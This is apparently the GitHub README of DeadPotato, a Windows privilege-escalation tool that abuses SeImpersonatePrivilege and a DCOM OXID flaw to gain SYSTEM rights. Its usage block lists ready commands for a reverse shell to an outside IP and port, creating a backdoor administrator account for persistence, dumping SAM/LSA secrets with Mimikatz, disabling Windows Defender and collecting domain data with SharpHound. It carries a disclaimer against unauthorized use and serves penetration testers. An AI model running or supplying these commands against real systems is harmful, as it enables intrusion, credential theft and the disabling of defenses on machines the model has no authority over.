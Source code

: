 <p align="center">
  <banner><image href="title-banner" src="https://github.com/user-attachments/assets/460525cb-1871-4608-a6e5-1c5da07f63aa" /></image></banner><br>
  <a href="#"><img alt="forksBDG" src="https://img.shields.io/github/forks/lypd0/DeadPotato?style=for-the-badge"></a>
  <a href="#"><img alt="starsBDG" src="https://img.shields.io/github/stars/lypd0/DeadPotato?style=for-the-badge"></a>
  <a href="#"><img alt="licenseBDG" src="https://img.shields.io/github/license/lypd0/DeadPotato?style=for-the-badge"></a>
  <a href="#"><img alt="languageBDG" src="https://img.shields.io/badge/LANGUAGE-CSHARP-green?style=for-the-badge"></a>

************************************************************

<h3 align="center">🚨 Hashdump & SharpHound Modules Now Available! 🚨</h3>
<h4 align="center"><i>❗ Usage of this program under an unauthorized context is strictly forbidden. The author(s) of DeadPotato do not take any responsibility for any harm caused to systems. Use with caution. ❗</i></h4>

************************************************************

```

C:\Users\lypd0> GodPotato.exe
  
    ⠀⢀⣠⣤⣤⣄⡀⠀    _           _
    ⣴⣿⣿⣿⣿⣿⣿⣦   | \ _  _  _||_) _ _|_ _ _|_ _
    ⣿⣿⣿⣿⣿⣿⣿⣿   |_/(/_(_|(_||  (_) |_(_| |_(_)
    ⣇⠈⠉⡿⢿⠉⠁⢸   Open Source @ github.com/lypd0
    ⠙⠛⢻⣷⣾⡟⠛⠋         -= Version: 1.2 =-
        ⠈⠁⠀⠀⠀

_,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,_

 (*) Example Usage(s):

   -={ deadpotato.exe -MODULE [ARGUMENTS] }=-

   -> deadpotato.exe -cmd "whoami"
   -> deadpotato.exe -rev 192.168.10.30:9001
   -> deadpotato.exe -exe paylod.exe
   -> deadpotato.exe -newadmin lypd0:DeadPotatoRocks1
   -> deadpotato.exe -shell
   -> deadpotato.exe -mimi sam
   -> deadpotato.exe -defender off
   -> deadpotato.exe -sharphound

 (*) Available Modules:

   - cmd: Execute a command as NT AUTHORITY\SYSTEM.
   - rev: Attempts to establish a reverse shell connection to the provided host
   - exe: Execute a program with NT AUTHORITY\SYSTEM privileges (Does not support interactivity).
   - newadmin: Create a new administrator user on the local system.
   - shell: Manages to achieve a semi-interactive shell (NOTE: Very bad OpSec!)
   - mimi: Attempts to dump SAM/LSA/SECRETS with Mimikatz. (NOTE: This will write mimikatz to disk!)
   - defender: Either enables or disables Windows Defender's real-time protection.
   - sharphound: Attempts to collect domain data for BloodHound.

```

************************************************************

<h2 align="center"> ❔ Quick Start - How To Use  ❔ </h2>
<p><i><strong>The `SeImpersonatePrivilege` right is enabled in your context? With **DeadPotato**, it is possible to achieve maximum privileges on the local system.<br><br>
The tool will attempt to start an elevated process running in the context of the `NT AUTHORITY\SYSTEM` user by abusing the DCOM's RPCSS flaw in handling OXIDs, allowing unrestricted access over the machine for critical operations to be freely performed.<br><br>
⚠️ In the following case, the `-cmd` module is used. Many modules are available for use, such as the `-rev IP:PORT` for spawning an elevated reverse shell, `-newadmin usr:pass` for creating a new local Administrator user for persistence, or `-mimi sam` for dumping SAM hashes.</strong></i></p></br>

************************************************************

<image align=*center*> 
<a href="GQJhLcT9IHA" src=*https://github.com/user-attachments/assets/b5f71f4a-f8bc-4099-81c5-54bcece7abb6* /></a></br>

<h3 align="center"> Verify SeImpersonatePrivilege rights </h3>
<p><i>In order to use DeadPotato, the SeImpersonatePrivilege right must be enabled in the current context. In order to verify this, the `whoami /priv` command can be executed.</br>
If there privilege is disabled, exploitation is not possible in the current context.</i></p></br>

```
   C:\Users\lypd0> whoami /priv

    <...SNIP...>
    SeImpersonatePrivilege    Impersonate a client after authentication     Enabled
    <...SNIP...>

```

</br>
<h2 align="center">🐚 Getting an Elevated Reverse Shell </h2>

![cmd_XQASCL7Lz6](https://github.com/user-attachments/assets/201fa7cb-4253-47e4-8beb-1ae781fc481c)


<h3 align="center"> 🏅 Credits </h3>
<p><i>This Project "DeadPotato" is a tool built on the source code of the masterpiece "GodPotato" by BeichenDream.</br>
If you like this project, make sure to also go show support to [the original project](https://github.com/BeichenDream/GodPotato)</i></br></br>

<p align="center">
  <strong></br> BeichenDream, </br>
  Benjamin DELPY `gentilkiwi`, </br>
  BloodHound Developers. </br>
</strong></p>

<h4 align="center"> License </h4>
<p><i>This project is licensed under the [![Apache 2.0 License](https://choosealicense.com/licenses/apache-2.0)]
</br> Please review the LICENSE file for more details.</i></p>

[![Star History Chart](https://api.star-history.com/svg?repos=lypd0/DeadPotato&type=Date)](https://star-history.com/#lypd0/DeadPotato&Date)
</h4>
